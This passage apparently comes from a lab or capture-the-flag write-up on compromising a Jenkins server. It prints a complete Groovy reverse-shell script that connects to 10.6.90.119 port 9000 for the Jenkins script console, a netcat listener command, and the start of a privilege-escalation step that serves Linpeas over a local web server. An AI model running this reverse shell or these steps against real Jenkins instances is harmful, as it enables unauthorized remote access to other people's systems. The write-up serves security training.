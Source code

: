 > <https://www.revshells.com/>

Choose Groovy from the list, copy that generated code. It's basically this, cleaned-up, in case you wanted to skim it:

```groovy
String host = "10.6.90.119";
int port = 9000;
String cmd = "sh";
Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s = new Socket(host, port);
InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
OutputStream po = p.getOutputStream(), so = s.getOutputStream();
while (!s.isClosed()) {
  while (pi.available() > 0) so.write(pi.read());
  while (pe.available() > 0) so.write(pe.read());
  while (si.available() > 0) po.write(si.read());
  so.flush();
  po.flush();
  Thread.sleep(50);
  try {
    p.exitValue();
    break;
  } catch (Exception e) {}
};
p.destroy();
s.close();
```

You can paste this in Jenkins while running Netcat locally, listening for a connection:

```bash
nc -lvnp 9000
```

and then click "Run" and we now have a reverse shell from the operating environment where Jenkins is running.

### Privilege Escalation / Privileged Access

We look around and basically:

1. We're running as the `jenkins` account, UID=1000.
2. We only belong to the `jenkins` group.
3. Our home folder is `/var/jenkins_home`. In there is the configuration for this instance.

Let's dig in to see what we can find.

#### Running Linpeas

First, let's get Linpeas on there and running. So, we run a quick web server from my `~/Downloads/` folder where I've already [downloaded Linpeas](https://github.com/carlospolop/PEASS-ng) with:

```bash
# Switch to the downloads folder
cd ~/Downloads/

# Start a web server
python3 -m http.server 8000
```
